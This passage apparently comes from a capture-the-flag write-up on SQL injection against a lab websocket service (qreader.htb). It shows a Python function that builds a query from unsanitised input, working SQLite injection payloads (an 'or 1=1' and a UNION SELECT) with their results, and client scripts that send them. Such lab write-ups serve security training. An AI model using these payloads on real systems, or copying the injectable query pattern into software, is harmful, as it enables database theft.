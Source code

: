         data = fetch_db(f'SELECT * from versions where version = "{app_version}"')
    
        if len(data) == 0:
            return False, f'Invalid version!'
    
        version_info = {}
    
        for row in data:
            for k in row.keys():
                version_info[k] = row[k]
    
        return True, version_info
    ```
    

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/SQLite Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

```python
#!/usr/bin/python3
from websocket import create_connection
import sys, json
ws_host = 'ws://ws.qreader.htb:5789'
VERSION = sys.argv[1]
ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```

- `./ws_cli.py "1\" or 1=1 -- -"`
    - {"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}

## Union Select

- `./ws_cli.py "1\" union select 1,(sqlite_version()),3,4-- -"`
    - {"message": {"id": 1, "version": "3.37.2", "released_date": 3, "downloads": 4}}

```python
#!/usr/bin/python3
from websocket import create_connection
import sys, json
ws_host = 'ws://ws.qreader.htb:5789'
VERSION = sys.argv[1]
ws = create_connection(ws_host + '/version')
union = f"1\" union select 1,({VERSION}),3,4-- -"
ws.send(json.dumps({'version': union}))
result = ws.recv()
try:
    json_object = json.loads(result)
    print(json_object['message']['version'])
except:
    print(result)
ws.close()
```
